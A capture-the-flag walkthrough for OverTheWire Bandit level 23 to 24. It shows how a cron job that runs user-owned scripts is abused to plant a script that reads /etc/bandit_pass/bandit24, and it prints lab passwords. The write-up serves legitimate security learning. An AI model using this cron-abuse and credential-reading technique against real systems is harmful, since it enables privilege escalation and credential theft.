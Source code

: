 <h1>Bandit 23 &#x2192; Bandit 24 </h1>

<h2 id="level-goal">Level Goal</h2>
<p>A program is running automatically at regular intervals from
<strong>cron</strong>, the time-based job scheduler. Look in <strong>/etc/cron.d/</strong> for
the configuration and see what command is being executed.</p>

<p><strong>NOTE:</strong> This level requires you to create your own first
shell-script. This is a very big step and you should be proud of
yourself when you beat this level!</p>

<p><strong>NOTE 2:</strong> Keep in mind that your shell script is removed once
executed, so you may want to keep a copy around…</p>

<h2 id="commands-you-may-need-to-solve-this-level">Commands you may need to solve this level</h2>
<p>cron, crontab, crontab(5) (use “man 5 crontab” to access this)</p>


<h1>Solution</h1>

```
user@host:~$ ssh bandit23@bandit.labs.overthewire.org -p 2220
jc1udXuA1tiHqjIsL8yaapX5XIAI6i0n

bandit23@bandit:~$ ls
bandit23@bandit:~$ ls /etc/cron.d/
cronjob_bandit15_root  cronjob_bandit22  cronjob_bandit24
cronjob_bandit17_root  cronjob_bandit23  cronjob_bandit25_root
bandit23@bandit:~$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:~$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

If we have a file that is owned by ourself in that directory, it will be executed!

```
bandit23@bandit:~$ mkdir /tmp/mytmp
bandit23@bandit:~$ vim /tmp/mytmp/runme.sh
  #!/bin/bash
  cat /etc/bandit_pass/bandit24 >> /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ touch /tmp/mytmp/psswrd.txt
bandit23@bandit:~$ chmod 777 -R /tmp/mytmp/
bandit23@bandit:~$ cp /tmp/mytmp/runme.sh /var/spool/bandit24/runme.sh
```

And after waiting a minute:

```
bandit23@bandit:~$ cat /tmp/mytmp/psswrd.txt
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```

[bandit level 23](23.md)
	[bandit level 25](25.md)
